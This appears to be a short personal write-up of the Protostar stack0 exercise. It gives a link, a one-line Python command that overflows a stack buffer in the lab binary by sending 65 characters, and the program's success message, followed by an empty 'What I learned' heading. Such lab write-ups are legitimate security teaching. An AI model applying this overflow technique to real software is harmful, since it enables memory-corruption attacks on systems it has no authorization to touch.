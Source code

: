 # Link
https://exploit-exercises.com/protostar/stack0/ 

# Solution
user@protostar:/opt/protostar/bin$ python -c 'print "a"*65' | ./stack0
you have changed the 'modified' variable 

# What I learned
